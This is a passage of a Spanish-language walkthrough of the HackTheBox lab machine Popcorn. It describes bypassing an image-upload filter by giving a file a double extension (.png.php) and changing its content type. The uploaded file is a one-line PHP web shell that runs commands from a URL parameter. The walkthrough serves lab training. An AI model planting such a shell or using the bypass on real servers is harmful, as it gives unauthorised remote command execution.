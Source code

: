 Si nos ponemos a pensar solo se pueden subir imágenes pero la pagina web interpreta **php** ademas que todo lo que subimos en ese campo también se muestra reflejado en la parte de **http://10.10.10.6/torrent/upload/**  así que lo que podemos hacer es aplicar un **Bypass** como en otros casos para ver si se puede por ejemplo podemos concatenar **.png.php** así que vamos a hacer eso 

```bash
❯ catn webshell.png.php
<?php system($_GET['cmd']); ?>
```

![](/assets/images/htb-writeup-popcorn/web24.png)

Pero nos dice esto  

![](/assets/images/htb-writeup-popcorn/f.png)

Vamos a capturar la petición con burpsuite al momento de subir la webshell para ver como se esta tramitando todo

Si analizamos vemos que si me lo esta tomando como archivo **php** y solo se aceptan imágenes así podemos probar cambiando a **jpeg** por ejemplo
